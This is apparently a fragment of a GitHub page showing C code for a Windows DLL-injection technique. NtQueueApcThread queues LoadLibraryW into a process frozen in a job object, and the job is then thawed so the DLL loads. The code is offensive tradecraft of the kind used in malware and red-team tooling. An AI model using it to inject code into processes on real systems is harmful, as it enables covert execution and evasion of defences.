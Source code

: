 
#### 📬🧵 NtQueueApcThread (QueueUserAPC)


```c
HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
if (hKernel32 == NULL) {
    SetColor(FOREGROUND_RED);
    printf("[-] Error retrieving Kernel32-Module\n");
    CloseHandle(hJob);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return -1;
}


FARPROC loadLibAddr = GetProcAddress(hKernel32, pAddress);
if (!loadLibAddr) {
    printf("Error retrieving the address of LoadLibraryW.\n");
    CloseHandle(hJob);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return -1;
}
if (!NT_SUCCESS(NtQueueApcThread(pi.hThread, (PVOID)loadLibAddr, remoteMemory, NULL, NULL))) {
    printf("NtQueueApcThread failed...\n");
    CloseHandle(hJob);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return -1;
}
SetColor(FOREGROUND_INTENSITY);
printf("[+] APC has been successfully installed. The DLL is loaded during defrosting.\n");
```


#### 🔓🔥 Job-Thawing


```c
freezeInfo.FreezeOperation = 1; // Unfreeze operation
freezeInfo.Freeze = FALSE;


NTSTATUS unfreezeStatus = NtSetInformationJobObject(hJob, (JOBOBJECTINFOCLASS)JobObjectFreezeInformation, &freezeInfo, sizeof(freezeInfo));
if (!NT_SUCCESS(unfreezeStatus)) {
    SetColor(FOREGROUND_RED);
    printf("Error: 0x%X\n", unfreezeStatus);
    CloseHandle(hJob);
    return -1;
}
```

